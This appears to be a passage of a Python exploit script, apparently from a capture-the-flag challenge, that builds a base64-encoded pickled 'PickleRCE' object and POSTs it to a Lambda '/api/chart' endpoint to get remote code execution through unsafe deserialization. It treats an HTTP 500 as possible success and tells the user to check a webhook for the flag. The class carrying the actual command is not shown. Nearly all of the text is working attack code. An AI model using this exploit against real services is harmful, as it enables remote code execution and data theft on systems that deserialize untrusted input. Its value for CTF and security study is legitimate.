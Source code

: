 ```python
    """
    try:
        # Create the pickled object
        pickled_obj = pickle.dumps(PickleRCE())
        # Encode to base64
        encoded_payload = base64.b64encode(pickled_obj).decode('utf-8')
        return encoded_payload
    except Exception as e:
        print(f"[-] Error creating payload: {str(e)}")
        return None

def send_pickled_payload():
    """
    Send the pickled payload to the Lambda function in JSON format
    """
    try:
        # Create the payload
        payload = create_payload()
        if not payload:
            return

        # Prepare the request
        url = f"{base_url}/api/chart"
        headers = {
            'Content-Type': 'application/json',
            'X-Pickled': 'true'
        }

        # Create JSON payload with pickled data
        json_payload = {
            "data": payload,
            "pickled": True,
            "labels": ["00:00", "01:00"],
            "values": [1.0, 2.0]
        }

        # Convert JSON payload to bytes
        payload_bytes = json.dumps(json_payload).encode('utf-8')

        print("[+] Sending pickled payload to Lambda function...")
        print(f"[+] Target URL: {url}")
        print(f"[+] Headers: {headers}")
        print(f"[+] Payload length: {len(payload_bytes)} bytes")

        # Create and send the request
        req = urllib.request.Request(
            url=url,
            data=payload_bytes,
            headers=headers,
            method='POST'
        )

        try:
            # Send request and get response
            response = urllib.request.urlopen(req)
            print(f"[+] Response Status: {response.status}")
            response_data = response.read().decode('utf-8')
            print(f"[+] Response: {response_data}")
        except urllib.error.HTTPError as e:
            if e.code == 500:
                print("[+] Received status code 500 - This might indicate successful RCE!")
                print("[+] Check your webhook for the flag...")

```
